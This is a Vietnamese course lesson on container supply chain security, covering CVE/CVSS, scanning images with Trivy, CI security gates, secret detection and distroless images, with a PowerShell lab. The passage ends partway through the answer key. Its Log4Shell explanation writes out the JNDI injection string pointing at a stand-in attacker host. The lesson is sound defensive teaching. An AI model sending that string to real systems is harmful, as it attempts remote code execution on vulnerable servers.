


# Bài 35: Bảo mật chuỗi cung ứng: Quét lỗ hổng Image bằng Trivy

## 1. Thông tin bài học
* **Tên bài:** Bài 35: Bảo mật chuỗi cung ứng: Quét lỗ hổng Image bằng Trivy
* **Mục tiêu học:** Làm chủ khái niệm an toàn chuỗi cung ứng phần mềm (Software Supply Chain Security) trong môi trường Cloud Native; giải phẫu 4 tầng rủi ro ẩn náu bên trong một Container Image (OS packages, Application dependencies, Misconfigurations, Secret leaks); hiểu sâu chuẩn định danh lỗ hổng CVE và thang điểm nguy cơ CVSS; thành thạo công cụ quét an ninh tiêu chuẩn công nghiệp **Trivy**; áp dụng mô hình "Shift-Left Security" xây dựng chốt chặn an toàn (Security Gate) tự động đánh rớt các bản build chứa lỗ hổng Critical; thực hành quét và phân tích báo cáo lỗ hổng cho các microservice trong Google Online Boutique.
* **Thời lượng ước tính:** 150 phút (75 phút lý thuyết, 75 phút thực hành)
* **Kiến thức cần có trước:** Bài 02 (Container Image Layers & Dockerfile), Bài 32 (Pod Security Standards), Bài 33 (SecurityContext).
* **Liên quan kỳ thi:** CKS (Trọng tâm cấu phần Supply Chain Security: chiếm 20% tổng số điểm trong kỳ thi CKS, các câu hỏi luôn yêu cầu thí sinh sử dụng Trivy để quét image, phát hiện các CVE nghiêm trọng, loại bỏ các image không an toàn trước khi deploy lên cụm Kubernetes).

---

## 2. Bảng thuật ngữ

| Thuật ngữ | Giải thích đơn giản | Ví dụ / Ẩn dụ đời thường |
| :--- | :--- | :--- |
| **Supply Chain Security** | Bảo mật chuỗi cung ứng: Toàn bộ quy trình kiểm soát an ninh từ lúc viết code, kéo thư viện mã nguồn mở, đóng gói container cho đến khi chạy trên cụm. | Kiểm dịch an toàn thực phẩm từ khâu nông trại trồng rau, xe vận chuyển, kho lưu trữ cho đến khi dọn lên bàn ăn. |
| **CVE (Common Vulnerabilities and Exposures)** | Mã định danh chuẩn quốc tế duy nhất gán cho một lỗ hổng bảo mật đã được công bố công khai (ví dụ: `CVE-2021-44228` - Log4Shell). | Mã số hồ sơ bệnh án hoặc lệnh truy nã một loại virus nguy hiểm đã biết trên toàn thế giới. |
| **CVSS (Common Vulnerability Scoring System)** | Thang điểm chuẩn từ 0.0 đến 10.0 đánh giá mức độ nguy hiểm của lỗ hổng (Low, Medium, High, Critical). | Thang đo cấp độ bão: Cấp 1 (gió nhẹ) đến Cấp 10 (siêu bão tàn phá toàn bộ thành phố). |
| **Trivy** | Công cụ quét an ninh mã nguồn mở toàn diện của Aqua Security, chuyên quét lỗ hổng trong Container Image, File hệ thống, Git repo và Kubernetes cluster. | Máy quét X-quang và chó nghiệp vụ tại cửa kiểm soát an ninh sân bay. |
| **SBOM (Software Bill of Materials)** | Bản kê khai chi tiết toàn bộ các thành phần phần mềm, thư viện bên thứ ba và phiên bản được đóng gói bên trong một container image. | Bảng thành phần nguyên liệu và phụ gia ghi chi tiết trên vỏ hộp sữa chua. |
| **Shift-Left Security** | Triết lý bảo mật "Dịch chuyển sang trái": Đưa việc kiểm tra an ninh về sớm nhất có thể ngay từ khâu viết mã và build CI/CD thay vì đợi đến lúc chạy trên Production mới lo dọn rác. | Khám sức khỏe định kỳ và tiêm vaccine từ nhỏ thay vì đợi đến khi bệnh nặng mới vào phòng cấp cứu. |
| **Security Gate** | Chốt chặn tự động trong pipeline CI/CD: Tự động đánh rớt (Fail build) và từ chối xuất xưởng image nếu phát hiện lỗ hổng nghiêm trọng (Critical). | Thanh chắn tự động tại bãi xe: Biển số xe không hợp lệ hoặc xe quá khổ thì thanh chắn kiên quyết không mở. |

---

## 3. Bức tranh lớn: Vấn đề thực tế và ẩn dụ đời thường

### Nhắc lại bài trước
Ở Bài 34, chúng ta đã bảo vệ thành công các bí mật và mật khẩu bằng External Secrets Operator (ESO). Tuy nhiên, dù hệ thống hạ tầng Kubernetes có được siết chặt RBAC, NetworkPolicy và SecurityContext đến đâu, nếu bản thân **khối mã nguồn và thư viện đóng gói bên trong Container Image đã chứa sẵn mã độc hoặc lỗ hổng "cổng sau"**, kẻ tấn công vẫn dễ dàng làm chủ ứng dụng từ bên trong!

### Tại sao cần cái này ở production? (Vấn đề thực tế)

1. **Thảm họa "Trojan thời hiện đại" (Vụ nổ Log4Shell - Cuối năm 2021):**
   Một thư viện ghi log Java phổ biến mang tên `Log4j` bị phát hiện dính lỗ hổng thực thi mã từ xa cực kỳ sơ đẳng (`CVE-2021-44228`). Chỉ bằng việc gửi một chuỗi văn bản `${jndi:ldap://hacker.com/a}` vào ô tìm kiếm của website, hacker có thể chiếm toàn bộ quyền điều khiển máy chủ! Hàng triệu container trên toàn thế giới bị phơi nhiễm chỉ sau một đêm vì lập trình viên không hề biết thư viện mình dùng từ 3 năm trước đã trở thành "quả bom nổ chậm".
2. **Ký sinh trùng trong Base Image (Thừa thãi package không dùng):**
   Nhiều lập trình viên có thói quen tiện tay viết: `FROM ubuntu:latest` hoặc `FROM node:18`.  
   Một image Ubuntu đầy đủ nặng tới 500MB chứa hàng trăm tiện ích Linux cũ kỹ (`curl`, `tar`, `python2`, `systemd`, `openssl`). Ứng dụng của bạn chỉ cần chạy đúng một file NodeJS, nhưng lại mang theo 200 tiện ích rác thừa thãi. Mỗi tiện ích cũ đó đều có thể chứa 5–10 lỗ hổng CVE chưa được vá. Đó chính là bề mặt tấn công khổng lồ mà bạn đang "tặng không" cho tin tặc!
3. **Mã độc cài cắm trong chuỗi cung ứng (Typosquatting & Backdoor):**
   Hacker tạo ra các thư viện mã nguồn mở có tên gần giống thư viện xịn (ví dụ: `cross-env` bị nhái thành `crossenv`) chứa mã độc âm thầm đánh cắp biến môi trường và gửi về máy chủ tin tặc. Nếu không có công cụ quét tự động như **Trivy**, doanh nghiệp sẽ hoàn toàn "mù chữ", vô tư đẩy mã độc lên môi trường Production phục vụ hàng triệu khách hàng!

### Ẩn dụ đời thường: Nhà hàng 5 sao và Nguyên liệu nhiễm khuẩn

Hãy hình dung ứng dụng của bạn giống như một bữa tiệc tại nhà hàng cao cấp:
* **Hạ tầng Kubernetes (RBAC, NetworkPolicy, SecurityContext):** Bạn xây dựng nhà hàng cực kỳ sang trọng, tường cách âm, cửa bảo vệ hai lớp, nhân viên đeo găng tay tiệt trùng.
* **Container Image (Nguyên liệu nhập vào bếp):** Bạn nhập một tảng thịt bò từ một trang trại trôi nổi bên ngoài. Tảng thịt này đã bị nhiễm vi khuẩn tả (Image chứa lỗ hổng CVE nghiêm trọng).
* **Hậu quả:** Dù đầu bếp có rửa tay sạch đến đâu, đĩa thức ăn dọn lên bàn vẫn khiến toàn bộ thực khách bị ngộ độc thực phẩm!
* **Trivy = Máy xét nghiệm vi sinh siêu tốc tại cổng kho tiếp nhận:** Trước khi bất kỳ tảng thịt nào được mang vào bếp, nhân viên kiểm dịch đưa qua máy soi Trivy. Nếu phát hiện vi khuẩn nguy hiểm (Critical CVE), thanh chắn lập tức đóng sầm lại (`exit-code 1`), tảng thịt bị trả về nhà cung cấp ngay tức khắc! Bếp ăn luôn được bảo đảm an toàn 100%.

---

## 4. Giải thích khái niệm theo từng bước

### 4.1. Giải phẫu 4 tầng rủi ro ẩn náu trong một Container Image

Một Container Image hoàn chỉnh (đã học ở Bài 02) được cấu tạo từ nhiều lớp xếp chồng lên nhau. Rủi ro an ninh phân bổ ở 4 tầng độc lập:



1. **Lỗ hổng Hệ điều hành (OS Packages):** Nằm ở base image (`debian`, `alpine`, `ubuntu`). Các gói phần mềm hệ thống như `openssl`, `glibc`, `busybox` bị lỗi tràn bộ đệm.
2. **Lỗ hổng Thư viện ngôn ngữ (Application Dependencies):** Nằm trong mã nguồn ứng dụng (file `package-lock.json`, `pom.xml`, `requirements.txt`). Các package mã nguồn mở bị dính lỗ hổng logic hoặc bị chèn backdoor.
3. **Cấu hình sai lệch (Misconfigurations):** Dockerfile viết cẩu thả, không có lệnh `USER` (chạy root), cài đặt các công cụ không cần thiết như `ssh-server`.
4. **Rò rỉ khóa bí mật (Secret Leaks):** Lập trình viên vô tình copy file `.env` chứa mật khẩu AWS hoặc khóa bí mật vào trong image layer lúc chạy lệnh `docker build`.

---

## 4.2. Hệ thống định danh CVE và thang điểm CVSS

Khi một lỗ hổng được phát hiện trên thế giới:
* Nó được cấp một mã số duy nhất theo định dạng: **`CVE-NĂM-SỐ THỨ TỰ`** (ví dụ: `CVE-2023-44487` là lỗ hổng HTTP/2 Rapid Reset làm nghẽn mạng toàn cầu).
* Mức độ nghiêm trọng được đo bằng thang điểm **CVSS v3 (Common Vulnerability Scoring System)** từ 0.0 đến 10.0:

| Cấp độ Nguy cơ | Thang điểm CVSS | Ý nghĩa thực tế | Hành động của SRE / Dev |
| :--- | :---: | :--- | :--- |
| **LOW** | 0.1 – 3.9 | Khó khai thác, kẻ tấn công phải có quyền truy cập vật lý nội bộ. | Theo dõi, vá trong các đợt bảo trì định kỳ hàng quý. |
| **MEDIUM** | 4.0 – 6.9 | Có thể khai thác nhưng đòi hỏi điều kiện phức tạp. | Lên lịch vá trong vòng 30 ngày. |
| **HIGH** | 7.0 – 8.9 | Dễ khai thác từ xa, có thể đánh cắp dữ liệu nhạy cảm. | Bắt buộc phải vá trong vòng 7 ngày. |
| **CRITICAL** | 9.0 – 10.0 | **Lỗ hổng "ngày tận thế"**: Khai thác cực dễ qua Internet không cần mật khẩu, chiếm toàn quyền hệ thống! | **BÁO ĐỘNG ĐỎ: Chặn build ngay lập tức, vá khẩn cấp trong 24 giờ!** |

---

### 4.3. Kiến trúc và cơ chế quét của Trivy

Trivy được coi là "con dao pha Thụy Sĩ" của bảo mật Cloud Native vì tốc độ quét cực nhanh và tính toàn diện vượt trội:



#### Quy trình 3 bước của Trivy:
1. **Bóc tách thành phần (SBOM Extraction):** Trivy mở các layer của container image, đọc file danh mục package (`/var/lib/dpkg/status` của Debian, `apk/installed` của Alpine, hoặc `package-lock.json` của NodeJS) để trích xuất danh sách toàn bộ các thư viện và phiên bản đang có mặt.
2. **So khớp tình báo (Vulnerability Matching):** Đối chiếu danh sách trên với cơ sở dữ liệu lỗ hổng (Vulnerability DB) được tổng hợp từ hàng chục nguồn uy tín thế giới.
3. **Đưa ra phán quyết:** Xác định chính xác phiên bản nào đang bị dính CVE, và phiên bản nào đã có bản vá sửa lỗi (`Fixed Version`).

---

### 4.4. Mô hình "Shift-Left Security": Thiết lập chốt chặn (Security Gate)

Trong mô hình DevOps truyền thống (lạc hậu), việc kiểm tra an ninh chỉ diễn ra ở khâu cuối cùng: Ứng dụng đã lên Production rồi mới thuê chuyên gia Pentest vào quét. Khi phát hiện lỗi, cả hệ thống phải dừng lại để đập đi xây lại!  
Mô hình **Shift-Left Security** đưa việc kiểm tra bảo mật dịch chuyển về tận đầu nguồn:

```mermaid
flowchart LR
    Dev["Lập trình viên\n(Local Machine)"] -->|1. Pre-commit check| Git["Git Repository\n(Pull Request)"]
    Git -->|2. CI Pipeline (GitHub Actions / GitLab)| Build["Docker Build Image"]
    Build ==>|3. TRIVY SECURITY GATE\n(exit-code 1 nếu dính Critical)| Gate{"Đạt tiêu chuẩn?"}
    Gate -->|"VI PHẠM (CRITICAL)"| Fail["ĐÁNH RỚT PIPELINE!\nThông báo Dev sửa ngay lập tức"]
    Gate -->|"ĐẠT CHUẨN"| Registry["Container Registry\n(Harbor / ECR / DockerHub)"]
    Registry --> Deploy["K8s Cluster Production"]
```

> [!IMPORTANT]
> **Vũ khí tối thượng: Cờ `--exit-code 1` của Trivy**  
> Trong pipeline tự động hóa (CI/CD), Trivy hỗ trợ tham số:  
> `trivy image --severity CRITICAL --exit-code 1 <image>`  
> * Nếu image an toàn: Lệnh trả về Exit Code `0` $\rightarrow$ Pipeline tiếp tục chạy mượt mà.  
> * Nếu image dính dù chỉ **1 lỗ hổng Critical**: Lệnh lập tức thoát với Exit Code `1` $\rightarrow$ Pipeline CI/CD bị ngắt khẩn cấp! Bản build độc hại bị chặn đứng ngay từ trong trứng nước, không bao giờ có cơ hội lọt lên máy chủ Production!

---

## 5. Thực hành (Lab)

* **Môi trường:** Docker Desktop trên Windows / WSL 2, PowerShell.
* **Mức RAM ước tính:** ~200 MB.
* **Quy tắc vàng máy cá nhân:** Không cần tải các file cài đặt nặng nề vào ổ C. Chúng ta sẽ chạy trực tiếp Trivy thông qua một Docker container độc lập (`aquasec/trivy:latest`) gắn socket Docker của máy host!
* **Mục tiêu thực hành:**
  1. Chạy Trivy container và tải cơ sở dữ liệu lỗ hổng an ninh mới nhất.
  2. Quét một image cũ nổi tiếng nhiều lỗ hổng (`node:14-alpine`) để đọc hiểu cấu trúc bảng báo cáo an ninh.
  3. Quét microservice `frontend` của Google Online Boutique và phân tích mức độ an toàn.
  4. Thực nghiệm chế độ chốt chặn CI/CD (`--severity CRITICAL --exit-code 1`) để chứng kiến kịch bản chặn đứng bản build lỗi.
  5. Kích hoạt tính năng quét Secret rò rỉ ẩn bên trong container image.
  6. Dọn dẹp tài nguyên.

---

### Bước 1: Khởi động công cụ Trivy qua Docker Container

Chúng ta định nghĩa một hàm PowerShell ngắn gọn `Invoke-Trivy` để gọi Trivy container một cách tiện lợi, chia sẻ socket Docker để Trivy có thể quét các image nằm trên máy cục bộ của bạn:

```powershell
function Invoke-Trivy {
    param([Parameter(ValueFromRemainingArguments=$true)]$ArgsList)
    docker run --rm -v /var/run/docker.sock:/var/run/docker.sock -v ${PWD}\.trivy-cache:/root/.cache/ aquasec/trivy:latest @ArgsList
}
```

Kiểm tra phiên bản Trivy và tải dữ liệu lỗ hổng:
```powershell
Invoke-Trivy --version
```

**Kết quả mong đợi:**
```text
Version: 0.55.x (hoặc mới hơn)
Vulnerability DB:
  Version: 2
  Updated: 2026-10-xx...
```

---

### Bước 2: Quét image chứa lỗ hổng và giải mã bảng báo cáo

Chúng ta kéo và quét thử một image đã cũ: `node:14-alpine`:

```powershell
docker pull node:14-alpine
Invoke-Trivy image --severity HIGH,CRITICAL node:14-alpine
```

**Bảng báo cáo thực tế trả về từ terminal:**
```text
node:14-alpine (alpine 3.14.10)
==============================
Total: 12 (HIGH: 10, CRITICAL: 2)

┌────────────┬────────────────┬──────────┬──────────────┬───────────────────┬───────────────┬────────────────────────────────────────────────────────┐
│  Library   │ Vulnerability  │ Severity │ Status       │ Installed Version │ Fixed Version │                         Title                          │
├────────────┼────────────────┼──────────┼──────────────┼───────────────────┼───────────────┼────────────────────────────────────────────────────────┤
│ busybox    │ CVE-2022-30065 │ HIGH     │ fixed        │ 1.33.1-r8         │ 1.33.1-r9     │ busybox: use-after-free in config_read()               │
│ libcrypto1 │ CVE-2023-5363  │ CRITICAL │ fixed        │ 1.1.1t-r2         │ 1.1.1u-r0     │ openssl: Incorrect cipher key & IV processing...       │
│ ssl_client │ CVE-2023-6237  │ CRITICAL │ fixed        │ 1.1.1t-r2         │ 1.1.1w-r0     │ openssl: RSA key generation may lead to DoS            │
└────────────┴────────────────┴──────────┴──────────────┴───────────────────┴───────────────┴────────────────────────────────────────────────────────┘
```

> [!NOTE]
> **Giải mã 5 cột quan trọng nhất trong báo cáo:**
> 1. **`Library`:** Tên gói phần mềm bị lỗi (ví dụ: `libcrypto1` của OpenSSL).
> 2. **`Vulnerability`:** Mã quốc tế của lỗ hổng (`CVE-2023-5363`). Bạn có thể gõ mã này lên Google để đọc chi tiết cách thức hacker khai thác.
> 3. **`Severity`:** Mức độ nguy hiểm (ở đây là `CRITICAL` - Báo động đỏ!).
> 4. **`Installed Version`:** Phiên bản hiện tại đang có mặt trong image (`1.1.1t-r2`).
> 5. **`Fixed Version`:** Phiên bản đã được nhà sản xuất sửa lỗi (`1.1.1u-r0`). SRE chỉ việc nâng cấp package lên phiên bản này là an toàn!

---

### Bước 3: Quét microservice frontend của Google Online Boutique

Bây giờ hãy quét image chính thức của dịch vụ `frontend` trong dự án Online Boutique:

```powershell
docker pull gcr.io/google-samples/microservices-demo/frontend:v0.10.1
Invoke-Trivy image --severity HIGH,CRITICAL gcr.io/google-samples/microservices-demo/frontend:v0.10.1
```

**Phân tích kết quả:**
Google Online Boutique được build bằng kỹ thuật Multi-stage build và sử dụng base image tối giản. Bạn sẽ thấy số lượng lỗ hổng ít hơn rất nhiều so với các image thông thường, chứng minh sức mạnh của việc tối ưu hóa Dockerfile từ Bài 02!

---

### Bước 4: Thiết lập chế độ Security Gate trong CI/CD

Bây giờ chúng ta sẽ mô phỏng một kịch bản kiểm tra an ninh tự động trong đường ống CI/CD. Chúng ta yêu cầu: **Nếu image có bất kỳ lỗ hổng `CRITICAL` nào, lệnh bắt buộc phải trả về Exit Code `1` để đánh rớt bản build!**

Chạy lệnh kiểm tra trên `node:14-alpine`:

```powershell
Invoke-Trivy image --severity CRITICAL --exit-code 1 node:14-alpine
Write-Output "Exit Code trả về là: $LASTEXITCODE"
```

**Kết quả mong đợi:**
```text
Total: 2 (CRITICAL: 2)
...
Exit Code trả về là: 1
```
*Lệnh đã trả về đúng mã thoát `$LASTEXITCODE = 1`! Trong GitHub Actions hoặc GitLab CI, khi gặp exit code 1, pipeline sẽ lập tức chuyển sang màu đỏ (Failed), ngăn chặn triệt để việc đẩy image độc hại lên Container Registry!*

Bây giờ thử nghiệm với cờ chỉ lọc các lỗ hổng **ĐÃ CÓ BẢN VÁ (`--ignore-unfixed`)**:
```powershell
Invoke-Trivy image --ignore-unfixed --severity CRITICAL node:14-alpine
```
> [!TIP]
> Cờ `--ignore-unfixed` cực kỳ hữu ích trong thực tế: Nó giúp loại bỏ các lỗ hổng mà tác giả thư viện chưa phát hành bản vá, giúp lập trình viên không bị nghẽn việc vô lý khi họ không thể làm gì để sửa lỗi đó!

---

### Bước 5: Quét phát hiện Secret bị bỏ quên trong Container Image

Trivy không chỉ quét CVE, nó còn là "chó nghiệp vụ" đánh hơi các Private Key, Password, AWS Access Token bị lập trình viên vô tình bỏ quên trong các layer của image!

Thử nghiệm quét secret trên một image:

```powershell
Invoke-Trivy image --security-checks secret gcr.io/google-samples/microservices-demo/frontend:v0.10.1
```

**Kết quả mong đợi:**
```text
gcr.io/google-samples/microservices-demo/frontend:v0.10.1 (secrets)
================================================================
Number of secrets: 0
```
*(Nếu image có bỏ quên file `.env` hoặc file SSH key `id_rsa`, Trivy sẽ in ra chính xác dòng code và chuỗi token bị rò rỉ!)*

---

### Bước 6: Dọn dẹp tài nguyên (Cleanup)

Giải phóng các image nháp đã tải về máy:

```powershell
docker rmi node:14-alpine gcr.io/google-samples/microservices-demo/frontend:v0.10.1
Remove-Item -Recurse -Force .trivy-cache -ErrorAction SilentlyContinue
```

---

## 6. Lỗi thường gặp và cách debug

### Lỗi 1: Trivy tải cơ sở dữ liệu lỗ hổng (DB download) bị timeout hoặc cực chậm
* **Dấu hiệu:** Chạy lệnh quét bị treo ở dòng `Downloading vulnerability DB...` rồi báo lỗi `context deadline exceeded`.
* **Nguyên nhân:** Mạng Internet từ máy cá nhân kết nối tới GitHub Releases (nơi lưu trữ Trivy DB) bị chập chờn hoặc bị giới hạn băng thông.
* **Cách debug và sửa:**
  1. Thêm cờ `--db-repository` để tải từ mirror trung gian (như ECR Public mirror của AWS):
     `trivy image --db-repository public.ecr.aws/aquasecurity/trivy-db:2 <image>`
  2. Bật chế độ không cập nhật lại DB nếu DB cục bộ còn mới: `--skip-db-update`.

---

### Lỗi 2: Báo động giả (False Positives) làm tắc nghẽn vô lý việc triển khai của đội phát triển
* **Dấu hiệu:** Trivy báo một CVE điểm 9.8 Critical trong một file thư viện `test`, nhưng thực tế hàm lỗi đó hoàn toàn không bao giờ được gọi trong mã nguồn chạy thực tế.
* **Nguyên nhân:** Trivy quét dựa trên phiên bản khai báo trong manifest file (`package-lock.json`), nó không phân tích luồng thực thi động (Dynamic reachability).
* **Cách debug và sửa:**
  * Tạo file **`.trivyignore`** đặt tại thư mục gốc của dự án. Ghi danh sách các mã CVE được chấp nhận miễn trừ kèm lý do rõ ràng:
    ```text
    # Miễn trừ CVE-2023-xxxx do hàm này chỉ dùng trong môi trường test nội bộ
    # Hạn chót rà soát lại: 2026-12-31
    CVE-2023-12345
    ```
    Khi chạy, thêm cờ `--ignorefile .trivyignore`.

---

### Lỗi 3: Lập trình viên cố tình giấu mật khẩu ở layer cũ nhưng vẫn bị phát hiện
* **Dấu hiệu:** Trong Dockerfile lập trình viên viết:
  ```dockerfile
  COPY secret.key /app/
  RUN use_key_to_build.sh
  RUN rm /app/secret.key # ĐÃ XÓA FILE!
  ```
  Nhưng Trivy vẫn bắt quả tang và cảnh báo Secret Leak!
* **Nguyên nhân:** Đã học ở Bài 02: Các layer của container image là **bất biến (Immutable)**! Lệnh `rm` ở layer sau chỉ đánh dấu ẩn file đi, file gốc vẫn nằm nguyên vẹn trong layer phía trước!
* **Cách debug và sửa:**
  * Bắt buộc sử dụng kỹ thuật **Multi-stage build** hoặc cơ chế **Docker Build Secrets** (`--mount=type=secret`).

---

## 7. Góc nhìn Senior

### 1. Sự đánh đổi (Trade-offs): Chặn đứng nghiêm ngặt vs Tốc độ phát hành (Velocity)

| Tiêu chí | Khóa cứng triệt để (`--severity HIGH,CRITICAL --exit-code 1`) | Cảnh báo mềm (`--exit-code 0` + Báo cáo Dashboard) |
| :--- | :--- | :--- |
| **Mức độ an ninh** | Tuyệt đối: Không một image nào có lỗi được phép xuất xưởng. | Thấp hơn: Phụ thuộc vào tính tự giác sửa lỗi của lập trình viên. |
| **Tốc độ release tính năng** | Có thể bị chậm: Lập trình viên phải dừng việc để sửa CVE của thư viện bên thứ ba. | Rất nhanh: Tính năng mới liên tục được đẩy ra thị trường phục vụ kinh doanh. |
| **Tinh thần làm việc của Dev** | Dễ gây ức chế (Frustration) nếu có quá nhiều CVE không có bản vá (`Unfixed`). | Thoải mái, nhưng tích tụ "nợ kỹ thuật" an ninh khổng lồ. |
| **Khuyến nghị áp dụng** | **Chỉ áp dụng cho CRITICAL và ĐÃ CÓ BẢN VÁ (`--ignore-unfixed`)**. | Áp dụng cho các lỗ hổng mức Medium và Low. |

---

### 2. Best practices tại production

1. **Chuyển dịch sang Distroless và Chainguard Images:**
   * Cách triệt tiêu lỗ hổng OS packages tốt nhất là **KHÔNG CÓ OS PACKAGES NÀO CẢ**!
   * Thay vì dùng `FROM node:18-bullseye` (chứa 400 package và 50 CVE), hãy chuyển sang:
     `FROM gcr.io/distroless/nodejs18-debian11` hoặc các image của Chainguard.
   * Image Distroless không có `apt`, không có `bash`, không có `curl` $\rightarrow$ Số lượng CVE tự động tụt về **CON SỐ 0 TRÒN TRĨNH**!
2. **Quét 3 chặng độc lập (Triple-gate Scanning):**
   * Một chiến lược bảo mật chuỗi cung ứng chuẩn Enterprise không bao giờ chỉ quét một lần:
     * **Chặng 1 (Build Time):** Trivy CLI chạy trong CI/CD pipeline (chặn xuất xưởng).
     * **Chặng 2 (Registry Time):** Công cụ quét tích hợp trong Container Registry (như Harbor Scanner, AWS ECR Inspector) quét định kỳ hàng đêm các image đang lưu trong kho.
     * **Chặng 3 (Runtime):** Cài đặt **Trivy Operator** trực tiếp trong cụm Kubernetes. Trivy Operator liên tục kiểm tra các Pod đang chạy trên cluster để phát hiện các lỗ hổng mới vừa được công bố (Zero-day vulnerabilities).
3. **Ký số và Xác thực nguồn gốc Image (Cosign / Sigstore):**
   * Sau khi Trivy quét đạt chuẩn, sử dụng công cụ **Cosign** để "ký tên đóng dấu mật mã" lên image.
   * Trên cụm Kubernetes, cài đặt Kyverno để chỉ cho phép các image có chữ ký số hợp lệ của công ty được phép chạy!

---

### 3. Câu hỏi phỏng vấn Senior

* **Câu hỏi 1:** *SBOM (Software Bill of Materials) là gì? Tại sao các chính phủ và các tập đoàn công nghệ lớn hiện nay đều bắt buộc phải xuất trình SBOM khi bàn giao phần mềm? Trivy hỗ trợ tạo SBOM như thế nào?*
* **Gợi ý trả lời chuẩn:**
  * **Định nghĩa SBOM:** SBOM là "Bản danh mục nguyên liệu phần mềm", liệt kê chi tiết toàn bộ các thành phần mã nguồn mở, module, thư viện phụ thuộc, giấy phép (License) và phiên bản chính xác tạo nên ứng dụng.
  * **Tại sao bắt buộc:** Khi một lỗ hổng toàn cầu bùng nổ (như Log4j hay OpenSSL zero-day), các doanh nghiệp không thể chờ hàng tuần để rà soát mã nguồn. Với SBOM, đội an ninh chỉ cần chạy một câu lệnh truy vấn cơ sở dữ liệu SBOM tập trung là biết chính xác 100% trong vòng 1 phút những hệ thống nào đang sử dụng thư viện bị lỗi!
  * **Trivy hỗ trợ:** Trivy có khả năng xuất trực tiếp SBOM theo các chuẩn công nghiệp quốc tế (CycloneDX hoặc SPDX) chỉ bằng một lệnh:
    `trivy image --format cyclonedx --output sbom.json <image-name>`

* **Câu hỏi 2:** *Tại sao việc chỉ quét lỗ hổng Image trong pipeline CI/CD (lúc build) là CHƯA ĐỦ để bảo vệ một cụm Kubernetes Production? Cần giải pháp gì bổ sung ở giai đoạn Runtime?*
* **Gợi ý trả lời chuẩn:**
  * **Tại sao CI/CD chưa đủ:**
    * Cơ sở dữ liệu lỗ hổng thay đổi từng ngày. Một image được quét và vượt qua CI/CD hôm nay với 0 CVE, nhưng **ngày mai một lỗ hổng Zero-day mới được phát hiện** trên thư viện đó thì image đang chạy trên Production bỗng nhiên trở thành mục tiêu bị tấn công!
    * Một image có thể nằm trên cụm Production suốt 6 tháng mà không được build lại. CI/CD chỉ chạy khi có code mới, nó hoàn toàn mù tịt về tình trạng của các container đang sống trên cluster.
  * **Giải pháp bổ sung ở Runtime:**
    * Triển khai **Trivy Operator** (hoặc Sysdig/Prisma Cloud) trực tiếp bên trong cụm Kubernetes.
    * Trivy Operator tự động theo dõi toàn bộ Pods, Deployments và định kỳ quét lại các image đang chạy thực tế mỗi 24 giờ.
    * Kết quả được ghi trực tiếp vào các Custom Resource như `VulnerabilityReport`, giúp đội SRE lập tức nhận được cảnh báo ngay khi có CVE mới xuất hiện trên các Pod đang phục vụ khách hàng.

---

## 8. Tóm tắt bài học
* 📌 **1. Bốn tầng rủi ro Image:** Hệ điều hành cơ sở (OS), Thư viện ứng dụng (Dependencies), Cấu hình sai (Misconfigurations), và Lộ mật khẩu (Secret Leaks).
* 📌 **2. Tiêu chuẩn CVE & CVSS:** CVE là mã định danh lỗ hổng; thang điểm CVSS từ 0.0 đến 10.0 đo lường mức độ nguy hiểm (tập trung xử lý mức High và Critical).
* 📌 **3. Bản chất Trivy:** Công cụ quét an ninh toàn diện, siêu tốc, bóc tách SBOM và so khớp với cơ sở dữ liệu lỗ hổng thế giới.
* 📌 **4. Chốt chặn Security Gate:** Sử dụng cờ `--severity CRITICAL --exit-code 1` để tự động đánh rớt pipeline CI/CD nếu phát hiện lỗ hổng nghiêm trọng.
* 📌 **5. Giải pháp gốc rễ:** Chuyển dịch sang **Distroless Base Images** để triệt tiêu toàn bộ các package thừa thãi của hệ điều hành, đưa số lượng CVE về 0.

---

## 9. Bài tập tự làm

* 🟢 **Mức Dễ:** Sử dụng Trivy quét image `alpine:latest` và so sánh với `ubuntu:latest`. Quan sát xem image nào có ít lỗ hổng CVE hơn và giải thích lý do vì sao.
* 🟡 **Mức Vừa:** Chạy lệnh Trivy quét image `python:3.9-slim` với hai cờ lọc: Chỉ hiển thị các lỗ hổng mức `CRITICAL` và chỉ hiển thị các lỗ hổng **đã có bản vá** (`--ignore-unfixed`). Đếm xem có bao nhiêu lỗi cần sửa.
* 🔴 **Mức Khó:** Viết một script PowerShell xuất toàn bộ báo cáo quét của microservice `cartservice` ra định dạng JSON (`--format json`), sau đó sử dụng lệnh `ConvertFrom-Json` để tự động trích xuất danh sách tất cả các CVE ID kèm đường link mô tả chi tiết của chúng.

---

## 10. Câu hỏi tự kiểm tra

1. Lỗ hổng CVE thuộc cấp độ nào (Low, Medium, High, Critical) thì bắt buộc phải chặn đứng bản build trong pipeline CI/CD?
2. Sự khác biệt cốt lõi giữa việc quét Image lúc Build-time và lúc Runtime là gì?
3. Tại sao cờ `--ignore-unfixed` trong Trivy lại được các đội ngũ phát triển phần mềm cực kỳ ưa chuộng?
4. Nếu một lập trình viên xóa file mật khẩu ở layer cuối cùng của Dockerfile (`RUN rm secret.txt`), Trivy có phát hiện ra mật khẩu đó không? Vì sao?
5. Image "Distroless" là gì và tại sao việc sử dụng Distroless lại giúp giảm thiểu tới 90% số lượng lỗ hổng CVE?

<details>
<summary>👉 Bấm vào đây để xem đáp án câu hỏi tự kiểm tra</summary>

* **Câu 1:** Cấp độ **CRITICAL** (thang điểm CVSS từ 9.0 đến 10.0) bắt buộc phải chặn đứng bản build ngay lập tức để ngăn ngừa nguy cơ bị khai thác từ xa không cần xác thực.
* **Câu 2:** Build-time quét tại thời điểm đóng gói mã nguồn trong pipeline CI/CD để ngăn không cho image độc hại xuất xưởng; Runtime quét định kỳ các container đang thực sự chạy trên cụm Kubernetes để phát hiện các lỗ hổng Zero-day mới được công bố sau khi image đã được deploy.
